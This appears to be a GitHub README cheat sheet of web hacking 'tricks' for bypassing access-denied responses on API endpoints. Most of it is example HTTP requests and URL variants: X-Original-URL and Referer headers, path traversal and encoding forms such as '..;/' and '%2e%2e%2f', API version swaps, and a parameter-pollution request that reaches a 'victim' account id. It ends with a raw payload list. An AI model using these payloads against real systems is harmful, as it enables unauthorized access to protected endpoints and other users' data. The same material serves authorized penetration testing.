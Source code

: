 # Web-Hacking #
## Topics 

#### Tricks
If you want do bypass endpoint always try to use own methodology.

Example:

Http Header based bypass:

1. X-Original-URL: /redact

Example:
  ↓
  
GET /api/getUser HTTP/1.1 → 403
Host: redact.com

GET / HTTP/1.1
Host: redact.com
X-Original-URL: /api/getUser → 200 OK

2. Referer: https://site.com/api/redact

Example:
  ↓

GET /api/getUser HTTP/1.1 → acess denied
Host: redact.com

  ↓
  
GET / HTTP/1.1
Host: redact.com
Referer: https://site.com/api/getUser → 200 OK
 
  or
  
GET / HTTP/1.1
Host: redact.com
Referer: https://site.com/api/getUser → 200 ok

More examples:

3. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid.json → bypass ok

4. https://site.com/api/v1/redactid → acess denied
https://site.com/api/v1/users/redactid: → bypass ok

5. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid..;/ → bypass ok

6. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid\..\.\getUser → bypass ok

7. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid/ → bypass ok

8. https://site.com/api/v1/users/redactid → acess denied
https://site.com/api/v1/users/redactid?? → bypass ok

9. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v2/users/redactid → bypass ok
            or
https://site.com/api/v3/users/redactid → bypass ok

10. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid&accountdetails → bypass ok

11. https://site.com/api/v1/users/victim?id=BAEILsaqQhk → acess denied
https://site.com/api/v1/users/your?id=UAEILsdUf50&victim?id=BAEILsaqQhk → bypass ok

12. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid/email → bypass ok

Payload for basic test:

?
??
&
#
%
%20
%09
/
/..;/
../
..$2f
..;/
../
\..\.\
.././
..%00/
.%0d/
..%5c
..\
..%ff/
%2e%2e%2f
.%2e/
%3f
%26
%23
.json

HTTP Header based bypass:

1. X-Original-URL: /redact
2. Referer: https://site.com/api/redact




